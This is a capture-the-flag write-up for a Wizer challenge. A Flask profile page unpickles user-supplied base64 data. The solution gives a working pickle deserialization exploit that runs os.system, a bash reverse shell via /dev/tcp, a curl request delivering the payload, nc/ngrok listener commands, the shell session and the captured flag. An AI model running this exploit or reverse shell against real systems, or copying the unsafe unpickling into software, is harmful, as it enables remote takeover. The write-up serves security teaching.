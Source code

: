 # Profile Page

## Description

Get the flag and submit it here ([https://dsw3qg.wizer-ctf.com/submit_flag/<flag>](https://dsw3qg.wizer-ctf.com/submit_flag/<flag>)) to win the challenge! (profile page: [https://dsw3qg.wizer-ctf.com/profile](https://dsw3qg.wizer-ctf.com/profile))

## Source Code

```python
from flask import Flask, request, render_template
import pickle
import base64

app = Flask(__name__, template_folder='templates')
real_flag = ''
with open('/flag.txt') as flag_file:
    real_flag = flag_file.read().strip()

class Profile:
    def __init__(self, username, email, bio):
        self.username = username
        self.email = email
        self.bio = bio

@app.route('/profile', methods=['GET', 'POST'])
def profile():
    if request.method == 'POST':
        username = request.form.get('username')
        email = request.form.get('email')
        bio = request.form.get('bio')

        if username and email and bio:
            profile = Profile(username, email, bio)
            dumped = base64.b64encode(pickle.dumps(profile)).decode()
            return render_template('profile.html', profile=profile, dumped=dumped)

    load_object = request.args.get('load_object')
    if load_object:
        try:
            profile = pickle.loads(base64.b64decode(load_object))
            return render_template('profile.html', profile=profile, dumped=load_object)
        except pickle.UnpicklingError as e:
            return f"Error loading profile: {str(e)}", 400

    return render_template('input.html')

@app.route('/submit_flag/<flag>', methods=['GET'])
def flag(flag):
    return real_flag if flag == real_flag else 'Not correct!'

if __name__ == '__main__':
    app.run(debug=True)
```

## Solution

### Understanding the code

This appears to be a `Flask` web application, starts by creating a class named `Profile` that represents user profiles. It has attributes such as `username`, `email`, and `bio`.

The main route of interest is `/profile`, which handles both `GET` and `POST` requests. If it's a `POST` request, the code retrieves user input from the parameters (`username`, `email`, `bio`). It then creates a `Profile` object, serializes it using the `pickle` module, encodes the serialized object in base64, and passes it to the `profile.html` template for rendering.

If the request is a `GET` request and includes a `load_object` parameter, the code attempts to deserialize the object from base64. If successful, it renders the `profile.html` template with the loaded profile.

### Solving the challenge

We already spot the interesting part of this code which is the fact that we can pass serialized objects in the GET parameter `load_object` and the app just deserialize it without any checks.

For more details about how to abuse this, you check this [article](https://davidhamann.de/2020/04/05/exploiting-python-pickle/).

So basically we will create a malicious serialized object that will hold an instance of a malicious class that performs command execution, then pass that serialized object to the app via the `load_object` parameter, then the app deserializes it and execute the code and we get by that command execution!

First we create the code that will give us the maclicious object :

```python
import pickle
import base64
import os


class RCE:
    def __reduce__(self):
        cmd = ('ANY SHELL COMMAND YOU WANNA RUN')
        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
```

In our case, we specify a reverse shell as the command :

```bash
bash -c "/bin/bash -i >& /dev/tcp/$IP/$PORT 0>&1"
```

Then we run the python code :

```bash
python3 pickle_generator.py

b'gASVWgAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjD9iYXNoIC1jICIvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvNy50Y3AuZXUubmdyb2suaW8vMTk3NzEgMD4mMSKUhZRSlC4='
```

Now we have our maclicious serialized object, next we start a listener using `nc` and `ngrok` to forward outside connections to our local port :

```bash
nc -lvnp 4444

ngrok tcp 4444
```

Next we pass that serialized object to the `load_object` parameter :

```bash
curl 'https://dsw3qg.wizer-ctf.com/profile?load_object=gASVWgAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjD9iYXNoIC1jICIvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvNy50Y3AuZXUubmdyb2suaW8vMTk3NzEgMD4mMSKUhZRSlC4='
```

As soon as we make that request we recieve a connect back to our listener with the reverse shell :

```bash
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 44240
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
nonrootuser@6d79931c83ac:/$ id
uid=1000(nonrootuser) gid=1000(nonrootuser) groups=1000(nonrootuser)
```

now we have command execution, let's read the flag which is located in `/flag.txt` :

```bash
nonrootuser@6d79931c83ac:/$ cat /flag.txt
WIZER{'PICKL1NG_1S_DANGEROUS'}
```

And we solved the fourth challenge!
